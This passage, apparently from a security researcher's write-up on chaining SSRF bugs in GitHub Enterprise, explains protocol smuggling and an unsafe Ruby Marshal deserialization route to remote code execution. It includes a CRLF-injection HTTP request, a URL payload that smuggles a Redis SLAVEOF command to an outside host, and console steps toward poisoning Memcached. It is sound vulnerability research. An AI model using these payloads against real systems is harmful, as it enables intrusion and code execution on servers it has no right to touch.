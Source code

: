 GET /
i_am_payload
Foo: HTTP/1.1
Host: 127.0.0.1:12345
Accept-Encoding: identity
This is one small step, but it become a giant leap for whole the exploit chain. Now, I can smuggle other protocols in this SSRF Execution Chain. For example, If we want to play with Redis, we can try following payload:

1
2
3
http://0:8000/composer/send_email?
to=orange@nogg&
url=http://127.0.0.1:6379/%0ASLAVEOF%20orange.tw%206379%0A
P.s. The SLAVEOF is a very nice command that you can make out-bound traffics. This is a useful trick when you are facing some Blind-SSRF!

That’s look great! However, there are also some limitations in protocol smuggling

Protocols with handshakes like SSH, MySQL and SSL will fail
The payload we used in second SSRF only allowed bytes from 0x00 to 0x8F due to the Python2
By the way, there is more than one way to smuggle protocols in the HTTP scheme. In my slides, I also show that how to use the features in Linux Glibc to smuggle protocols over SSL SNI, and a case study in bypassing Python CVE-2016-5699!

Check it, if you are interested :)

Fourth Bug - Unsafe Deserialization
For now, we have the ability to smuggle other protocols in a HTTP protocol, but the next problem is, what protocol do I choose to smuggle?

I spend lots of time to find out what vulnerabilities can be triggered if I can control the Redis or Memcached.

While reviewing the source. I am curious about why GitHub can store Ruby Objects in Memcached. After some digging, I find GitHub Enterprise uses Ruby Gem memcached to handle caches, and the cache was wrapped by Marshal.

It’s a good news to me. Everyone know that Marshal is dangerous.

(If you don’t know, I recommend you read the slides Marshalling Pickles by @frohoff and @gebl from AppSec California 2015)

So, our our goal is clear.

We use our SSRF execution chain to store malicious Ruby Objects in Memcached. The next time GitHub fetches the cache, Ruby Gem memcached will de-serialize the data automatically. And the result is… BOOM! Remote Code Execution! XD

Unsafe Marshal in Rails Console


irb(main):001:0> GitHub.cache.class.superclass
=> Memcached::Rails

irb(main):002:0> GitHub.cache.set("nogg", "hihihi")
=> true
